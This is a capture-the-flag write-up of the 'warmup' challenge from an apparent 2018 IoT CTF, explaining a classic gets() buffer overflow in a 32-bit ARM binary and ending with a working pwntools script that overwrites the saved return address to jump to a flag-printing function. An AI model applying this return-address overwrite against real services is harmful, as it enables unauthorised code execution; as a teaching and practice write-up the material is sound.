



# warmup - 919

> You will need access into Home Invasion network to complete this challenge. There is only one flag in this challenge.
>  
> Textbook exploit.
>  
> nc 192.168.51.12 10001

We were provided with 3 files, `warmup`, `ld-linux-armhf.so.3`, and `libc.so.6`. 

```
➜  iotctf2018 file warmup
warmup: ELF 32-bit LSB executable, ARM, EABI5 version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux-armhf.so.3, for GNU/Linux 3.2.0, BuildID[sha1]=b6ebf38c2de57f85b53c7771b7e4d61096731ba8, not stripped
```

`warmup` is a 32-bits ARM executable. This means that the architecture, instructions and even its calling convention is different from x86. We could not run the binary on our laptop. Dynamic analysis was now out of the question. We know that there is a way to do it, but we could not afford the time to research into it. 


We dived straight into `binary ninja` to analyse the program. After analysis, we concluded that there were two functions of interest - `<main>` and `<printflag>`. As shown below, `<printflag>` merely opens the flag file in the server, reads it into a local variable, then prints it out to stdout. 



We just had to find a way to redirect execution into `<printflag>`. So, we looked at `<main>`, hoping we could redirect program execution from there. 




Turns out it was possible! At first glance, we realized that the program was vulnerable to stack smashing. It was the classic buffer overflow. `gets` reads user input into the buffer `var_28`, overwriting the link register saved on the stack if long enough. In this challenge, padding of 36 characters (ie 0x24) was needed so that the 37th to 40th bytes would overwrite the return address. See below for the stack diagram.


```

|-----------------------|
|	var_28		| esp
|	(our buffer)	|
|			|
|			| esp + 0x4
|			|
|			|
|			| esp + 0x8
|			|
|			| .
|			|
|			| .
|			|
|			| .
|			|
|			|
|			|
|			|
|-----------------------|
|	r11 register	| esp + 0x20
|			|
|-----------------------|
|	link register	| esp + 0x24
|	(the ret addr)	|
|-----------------------|


```

From the symbols table, we found that the address of `<printflag>` was `0x105a4`.
```
➜  iotctf2018 objdump -t warmup | grep "printflag"
000105a4 g     F .text	00000058              printflag
```

We crafted our exploit accordingly.
```
from pwn import *

r = remote('192.168.51.12', 10001)

r.recvuntil('Input your name: ')

r.sendline('aaaabbbbccccddddaaaabbbbccccddddeeee\xa4\x05\x01\x00')


print r.recv(1024)
```

After running the exploit, we got the flag: `HI{binarypwn1_W4rmUp}`. 




